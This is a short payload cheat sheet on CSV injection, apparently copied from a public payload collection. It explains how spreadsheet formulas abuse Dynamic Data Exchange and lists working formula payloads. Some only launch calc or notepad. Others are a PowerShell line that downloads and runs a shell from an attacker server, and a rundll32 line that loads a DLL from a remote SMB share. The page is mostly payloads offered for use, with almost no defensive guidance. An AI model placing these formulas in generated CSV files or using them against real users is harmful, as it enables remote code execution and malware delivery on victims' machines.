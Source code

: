 # CSV Injection

## CSV Injection

Many web apps allow users to download items to a CSV file, such as invoice templates or user settings. Many people choose to open the CSV file in Excel, Open Office, or Libre Office. When a web application fails to validate the contents of a CSV file, the contents of a cell or several cells may be executed.

### Exploit

Basic exploit with Dynamic Data Exchange

```
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

Technical Details of the above payload:

* `cmd` is the name the server can respond to whenever a client is trying to access the server
* `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
* `!A0` is the item name that specifies the unit of data that a server can respond to when the client is requesting the data

Any formula can be started with

```
=
+
–
@
```

Extracted from here:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection#exploit" %}
